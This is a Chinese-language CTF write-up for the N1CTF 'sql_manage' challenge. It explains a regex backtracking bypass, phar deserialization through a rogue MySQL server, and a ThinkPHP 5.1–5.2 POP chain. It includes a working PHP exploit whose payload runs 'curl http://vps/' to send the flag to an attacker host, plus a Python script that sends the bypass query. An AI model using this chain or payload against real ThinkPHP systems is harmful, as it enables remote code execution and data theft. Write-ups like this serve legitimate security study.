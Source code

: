 [中文](./README.md) [English](./EN_writeup.md)

### 前言
准备了好久的N1CTF终于结束了，师傅们都在很用心的出题和运维，然而还是出了不少事故，希望大佬们体谅一下orz!
膜@wonderkun师傅的非预期链（感觉大佬们都不想做我这道题，可能出的太烂了。）
这道题出题思路来自于[TSec 2019 议题 PPT：Comprehensive analysis of the mysql client attack chain](https://paper.seebug.org/998/)，但是核心还是tp5.2反序列化POP链挖掘(预期可以通杀5.1.x和5.2.x)。

### 正则回溯
这个点p牛在`codebreaking`已经出过题了，没想到还是难到了一大堆人。具体可以看p牛的文章
[https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)
题目的正则

```php
if(preg_match('/sleep|BENCHMARK|processlist|GET_LOCK|information_schema|into.+?outfile|into.+?dumpfile|\/\*.*\*\//is', $query)) {
    die('Go out!!!');
}
```
使用`select xx into/*1000000个a*/dumpfile;`即可绕过。

### Mysql Phar反序列化
很早之前@zsx师傅在文章[Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://xz.aliyun.com/t/2958)中提到了本地mysql `LOAD DATA LOCAL INFILE`可以触发phar反序列化。
![image.png](./img/1.png)
这里提到了本地受限于这两个配置
```
[mysqld]
local-infile=1
secure_file_priv=""
```
但其实还受限于`open_basedir`
![image.png](./img/2.png)
这其实也就是用`Rogue Mysql Server`只能读到`/tmp/`目录下文件的原因。
另外mysql用户还需要拥有`insert`权限，否则会执行报错，因此在题目中直接执行`LOAD DATA LOCAL INFILE`去触发phar反序列化是不行的。

@LoRexxar'师傅在今年的Tsec上分享的议题[https://paper.seebug.org/998/](https://paper.seebug.org/998/)中提到了mysql客户端任意文件读取可以配合上面的trick来进行phar反序列化。因为其原理就是当`Mysql Client`向`Rogue Mysql Server`发送任意查询语句时，`Rogue Mysql Server`可以回复一个包含想要读取文件名的`file-transfer`请求，让`Mysql Client`执行`LOAD DATA LOCAL INFILE`语句把文件读取出来并发送给`Rogue Mysql Server`。此时我们把文件名格式改为`phar://filename`，让其执行`LOAD DATA LOCAL INFILE`语句即可触发phar反序列化。

ps:其实@zedd师傅在SUCTF出的题目`Upload Labs 2`中的预期解就是这个，他也发了文章[https://xz.aliyun.com/t/6057#toc-6](https://xz.aliyun.com/t/6057#toc-6)，当时我还想着跟我出的题撞了，没想到还是有很多人不知道,orz。

### TP5.1.x-5.2.x反序列化POP链分析
因为`Laravel`的反序列化链实在太多了，而thinkphp的基本没有人提到过，只有前段时间的一篇文章[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/挖掘暗藏thinkphp中的反序列利用链/?from=timeline&isappinstalled=0)，所以我就尝试挖了一下tp5.1的。
原本想的是挖一条全新的链，但是仔细看了下发现入口点只能找到文章中提到的那个地方，所以就想着利用这个入口再挖一条，最后挖到了一条可以通杀tp5.1.x-5.2.x的，因为tp5.1的文章中已经公开了思路，所以这里就拿tp5.2出了题。
首先是入口点
`think\process\pipes\windows`
![image.png](./img/3.png)

`file_exists`可以触发`__toString`方法

![image.png](./img/4.png)
全局搜索`__toString`方法，跟进`think\model\concern\Conversion`
![image.png](./img/5.png)
查看其`toJson`方法,继续跟进`toArray`方法。
![image.png](./img/6.png)

在这里文章用`$relation->visible($name);`来触发`Request`类的`__call`方法，但是tp5.2中这个方法被删掉了。
![image.png](./img/7.png)

我们来看一下`getAttr`方法
![image.png](./img/8.png)
![image.png](./img/9.png)
跟进`getValue`，漏洞点在这里。
![image.png](./img/10.png)
我们依次回溯下`$closure，$value，$this->data`
`$closure = $this->withAttr[$fieldName];`，`$this->withAttr`我们可控，看下`$fieldName = $this->getRealFieldName($name);`
跟进`getRealFieldName`
![image.png](./img/11.png)
`$strict`默认为true，所以传入的字符串会原样返回。
![image.png](./img/12.png)
传入的是`$name`，也是`getAttr`的参数`$key`，也是`$data`的键名。`$data`是`$this->data, $this->relation`合并的结果，因此`$closure`我们可控。
![image.png](./img/13.png)

再来看`$value`，跟进`getData`方法。
![image.png](./img/14.png)
如果`$this->data`存在`$fieldName`键名，则返回对应的键值，根据上面的分析我们刚好可以进入这个if中，而`$value`的返回值就是`$closure`对应的键值，因此`$value`我们也可控。
![image.png](./img/15.png)
回头看一下漏洞点，`$closure,$value`我们都可控，而`$this->data`是一个我们用来控制`$closure,$value`返回值的数组。
![image.png](./img/16.png)

此时我们可以怎么利用呢？
Example:
![image.png](./img/17.png)

其他的利用函数我并没有仔细去找，有兴趣的师傅可以找找看。

exp:
这个exp是我对着tp5.1的源码构造的可能和5.2有点不太一样，但是可以直接用。

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}

namespace {
    $Conver = new think\model\Pivot("curl http://vps/ -d '`tac /flag`';");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($payload); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo urlencode(serialize($payload));
}
?>
```

### sql_manage
首先在源码的配置文件中找到mysql的用户名和密码
![image.png](./img/18.png)
查看可写目录
![image.png](./img/19.png)
构造phar文件，使用正则回溯绕过限制写文件

```php
if(preg_match('/sleep|BENCHMARK|processlist|GET_LOCK|information_schema|into.+?outfile|into.+?dumpfile|\/\*.*\*\//is', $query)) {
        die('Go out!!!');
 }
```

```python
#coding=utf-8
import requests
url = "http://47.91.213.248:8001/query"
a = 'a'*1000000
data = {
    "query": "select 0x123456 into/*{}*/dumpfile '/tmp/smi1e123.phar';".format(a),
    "code": "nuk9"
}
cookie = {
    "PHPSESSID":"ik01ngjcquttltalvf7vk6aqap"
}

print(requests.post(url=url,data=data,cookies=cookie).text)
```
`load_file`一下可以看到写入成功
![image.png](./img/20.png)
使用这个项目[https://github.com/Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server) 把文件名改为phar格式
![image.png](./img/21.png)
host改为`Rogue-MySql-Server`地址，用户名密码随意。 
![image.png](./img/22.png)
服务端nc，然后执行任意sql语句触发phar反序列化即可收到flag。
![image.png](./img/23.png)

### 后记
由于撞车ByteCTF和TMCTF，并没有很多师傅在刚这道题orz。出题时也踩了不少坑，emmm虽然这个题目出的很烂但是还是想说出题不易，希望师傅们认真对待。